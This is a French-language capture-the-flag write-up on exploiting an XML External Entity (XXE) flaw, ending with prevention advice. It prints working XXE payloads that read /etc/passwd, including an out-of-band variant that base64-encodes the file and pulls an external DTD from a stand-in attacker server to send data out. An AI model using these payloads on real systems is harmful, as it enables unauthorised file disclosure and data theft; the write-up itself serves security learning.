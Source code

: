 ```yaml
---
title: "Exemple: Writeup CTF - Exploitation XXE moderne"
date: 2025-10-15
draft: false
---
```


## Introduction

Dans ce writeup, je vais vous présenter l'exploitation d'une vulnérabilité XXE (XML External Entity) découverte lors d'un CTF récent. Cette vulnérabilité permettait de lire des fichiers arbitraires sur le serveur.

## Reconnaissance

Lors de la phase de reconnaissance, j'ai identifié un endpoint qui acceptait des données XML :

```http
POST /api/upload HTTP/1.1
Host: target.ctf
Content-Type: application/xml

<?xml version="1.0"?>
<data>
    <name>test</name>
</data>
```

## Exploitation

### Étape 1 : Test de base

J'ai d'abord testé une injection XXE classique pour lire `/etc/passwd` :

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
    <name>&xxe;</name>
</data>
```

### Étape 2 : Bypass du filtre

Le serveur filtrait certains mots-clés. J'ai utilisé une technique d'encodage en base64 pour contourner ce filtre :

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % dtd SYSTEM "http://mon-serveur.com/evil.dtd">
  %dtd;
]>
<data>
    <name>&send;</name>
</data>
```

### Étape 3 : Récupération du flag

Après plusieurs tentatives, j'ai pu récupérer le fichier contenant le flag :

```bash
FLAG{xxe_1s_st1ll_d4ng3r0us_1n_2025}
```

## Conclusion

Cette vulnérabilité XXE montre l'importance de valider et sécuriser le parsing XML. Les développeurs devraient :

1. Désactiver les entités externes par défaut
2. Utiliser des parsers XML sécurisés
3. Implémenter une validation stricte des entrées
4. Adopter des formats plus sûrs comme JSON quand possible

## Références

- [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
- [PortSwigger XXE Tutorial](https://portswigger.net/web-security/xxe)
